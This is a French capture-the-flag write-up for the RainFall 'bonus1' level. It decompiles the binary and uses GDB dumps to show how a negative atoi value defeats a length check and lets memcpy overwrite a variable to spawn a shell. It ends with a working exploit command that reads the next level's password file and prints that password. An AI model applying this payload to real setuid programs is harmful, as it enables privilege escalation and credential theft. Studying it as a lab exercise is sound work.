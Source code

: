 # Bonus 1

On commence par décompiler le programme.
```
undefined4 main(undefined4 param_1,int param_2)

{
  undefined4 uVar1;
  undefined local_3c [40];
  int local_14;

  local_14 = atoi(*(char **)(param_2 + 4));
  if (local_14 < 10) {
    memcpy(local_3c,*(void **)(param_2 + 8),local_14 * 4);
    if (local_14 == 0x574f4c46) {
      execl("/bin/sh","sh",0);
    }
    uVar1 = 0;
  }
  else {
    uVar1 = 1;
  }
  return uVar1;
}
```

Ce que nous pouvons lire :

- Le programme attend deux arguments.
- Un atoi est là pour convertir l'argument en integer et on met le resultat dans une variable (local_14).
- S'il est strictement inférieur a 10 on entre danas la condition.
- Nous mettons le deuxième argument dans une variable (local_3c) alouée 40 char sur la stack avec memcpy, en spécifiant une longueur totale de la valeur de atoi * 4 (donc 36 max.)
- Enfin, si la variable local_14 est égale à l'adresse "0x574f4c46", un shell est ouvert avec les droits supérieurs.

Nous devons donc modifier la valeur de local_14 et pour se faire utiliser memcopy pour l'écraser.

Mais comment vu que nous pouvons copier que 36 char.

```
Dump of assembler code for function main:
   0x08048424 <+0>:	push   %ebp
   0x08048425 <+1>:	mov    %esp,%ebp
   0x08048427 <+3>:	and    $0xfffffff0,%esp
   0x0804842a <+6>:	sub    $0x40,%esp
   0x0804842d <+9>:	mov    0xc(%ebp),%eax
   0x08048430 <+12>:	add    $0x4,%eax
   0x08048433 <+15>:	mov    (%eax),%eax
   0x08048435 <+17>:	mov    %eax,(%esp)
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    %eax,0x3c(%esp)
   0x08048441 <+29>:	cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    $0x1,%eax
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
   0x0804844f <+43>:	mov    0x3c(%esp),%eax
   0x08048453 <+47>:	lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:	mov    0xc(%ebp),%eax
   0x0804845d <+57>:	add    $0x8,%eax
   0x08048460 <+60>:	mov    (%eax),%eax
   0x08048462 <+62>:	mov    %eax,%edx
   0x08048464 <+64>:	lea    0x14(%esp),%eax
   0x08048468 <+68>:	mov    %ecx,0x8(%esp)
   0x0804846c <+72>:	mov    %edx,0x4(%esp)
   0x08048470 <+76>:	mov    %eax,(%esp)
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   ====>  0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	movl   $0x0,0x8(%esp)
   0x0804848a <+102>:	movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:	movl   $0x8048583,(%esp)
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   0x0804849e <+122>:	mov    $0x0,%eax
   0x080484a3 <+127>:	leave
   0x080484a4 <+128>:	ret
```
Dans GDB :

- Nous allons poser un breakpoint juste après l'appel de memcpy pour voir ce qu'il se passe sur la stack.

```
Starting program: /home/user/bonus1/bonus1 9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048478 in main ()
(gdb) x/100x $esp
0xbffff6b0:	0xbffff6c4	0xbffff8cc	0x00000024	0x080482fd
===> 0xbffff6c0:	0xb7fd13e4	0x41414141	0x41414141	0x41414141
===> 0xbffff6d0:	0x41414141	0x41414141	0x41414141	0x41414141
===> 0xbffff6e0:	0x41414141	0x41414141	0x080484b9	0x00000009
0xbffff6f0:	0x080484b0	0x00000000	0x00000000	0xb7e454d3
0xbffff700:	0x00000003	0xbffff794	0xbffff7a4	0xb7fdc858
```

L'adresse du buffer est "0xbffff6c4", 36 "A" sont copiés, puis viens l'adresse d'EIP pour retrouver la suite du programme, et ensuite nous constatons que "local_14" est juste après.

La technique utilisée pour écraser cette adresse, va être d'exploiter la non vérification de l'INT_MIN (local_14 < 10) pour augmenter la taille du nombre de char copié dans memcpy.

En effet, donner un nombre aux alentours du INT MIN va modifier les 32 bits et donner un nombre positif au buffer.

Exemple :
```
Starting program: /home/user/bonus1/bonus1 9 Starting program: /home/user/bonus1/bonus1 9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048478 in main ()
(gdb) x/100x $esp
0xbffff6b0:	0xbffff6c4	0xbffff8cc	0x00000024	0x080482fd
===> 0xbffff6c0:	0xb7fd13e4	0x41414141	0x41414141	0x41414141
0xbffff6d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff6e0:	0x41414141	0x41414141	0x080484b9	0x00000009 <=== 9 * 4 = 36 char copiés.


Starting program: /home/user/bonus1/bonus1 -2147483648 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
(gdb) x/100x $esp
0xbffff6a0:	0xbffff6b4	0xbffff8cc	0x00000000	0x080482fd
0xbffff6b0:	0xb7fd13e4	0x00080000	0x08049764	0x080484d1
0xbffff6c0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6d0:	0xb7fed280	0x00000000	0x080484b9	0x80000000 <=== 0 char copié.


Starting program: /home/user/bonus1/bonus1 -2147483647 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048478 in main ()
(gdb) x/100x $esp
0xbffff6a0:	0xbffff6b4	0xbffff8cc	0x00000004	0x080482fd
===> 0xbffff6b0:	0xb7fd13e4	0x41414141	0x08049764	0x080484d1
0xbffff6c0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6d0:	0xb7fed280	0x00000000	0x080484b9	0x80000001 <=== 1 * 4 = 1 char copié et (local_14 vaut 0x80000001)
```

Après plusieurs essais nous arrivons à trouver la valeur du 1er argument pour pouvoir copier 44 chars et ecraser la valeur de local_14.

```
Starting program: /home/user/bonus1/bonus1 -2147483637 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048478 in main ()
(gdb) x/100x $esp
0xbffff6a0:	0xbffff6b4	0xbffff8cc	0x0000002c	0x080482fd
0xbffff6b0:	0xb7fd13e4	0x41414141	0x41414141	0x41414141
0xbffff6c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff6d0:	0x41414141	0x41414141	0x41414141	0x41414141 <===
```

nous avons donc le 1er argument, le deuxième consiste à écrire 40 * "A" + l'adresse de la condition "0x574f4c46".

```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
$ pwd
/home/user/bonus1
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
